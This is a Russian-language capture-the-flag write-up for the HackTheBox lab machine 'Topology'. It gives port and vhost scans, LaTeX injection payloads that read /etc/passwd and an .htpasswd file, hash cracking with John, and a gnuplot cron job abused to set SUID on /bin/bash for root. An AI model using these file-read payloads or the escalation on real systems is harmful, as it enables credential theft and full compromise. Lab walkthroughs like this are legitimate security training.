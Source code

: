 # Topology
:white_check_mark:  [**LaTeX file read explot**](#LaTeX_file_read)

:white_check_mark:  [**Gnuplot(privesc)**](#Gnuplot(privesc))

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV topology.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Просканируем домен на наличие поддоменов.
```
gobuster vhost -u topology.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 50 --append-domain
```

В результате мы получаем два поддомена: **dev.topology.htb** и **stats.topology.htb**. 

Главная страница сайта:

![](../assets/Topology/1.png)

<a name="LaTeX_file_read"></a>

## LaTeX file read explot

На главной странице сайта мы можем найти ссылку на поддомен с LaTeX: **latex.topology.htb**. Добавляем его в /etc/hosts и переходим на сайт.

![](../assets/Topology/2.png)

На сайте [HackTricks](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection) мы можем найти способ эксплуатировать уязвимость в LaTeX.

```
$\lstinputlisting{/etc/passwd}$
```

![](../assets/Topology/3.png)

Ранее мы нашли поддомен dev.topology.htb. Попробуем прочитать файл .htpasswd, которых содержит имена пользователей и пароли.

```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

![](../assets/Topology/4.png)

Расшифруем хэш с помощью John the Ripper:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![](../assets/Topology/5.png)

<a name="Gnuplot(privesc)"></a>

## Gnuplot(privesc)

Подключаемся по ssh с известными данными пользователя.

Прокинем linpeas на атакуемую машину и запустим скрипт. С помощью него мы можем обнаружить, что на машине используется gnuplot, файлы которого лежат в /opt.

![](../assets/Topology/6.png)

На данной [странице](https://stackoverflow.com/questions/27909281/how-to-run-a-system-command-in-gnuplot) мы можем узнать, что мы можем использовать системные команды через gnuplot.

Прокинем на машину pspy64, чтобы просмотреть процессы.

![](../assets/Topology/7.png)

Мы можем заметить что gnuplot запускает файлы с названиями *.plt которые лежат в директории /opt/gnuplot. Создадим свой файл и внесем в него вредоносный код, который позволит повысить привилегии.

```
echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/1.plt
```

Ждем некоторое время и прописываем команду:

```
bash -p
```

Мы получили root.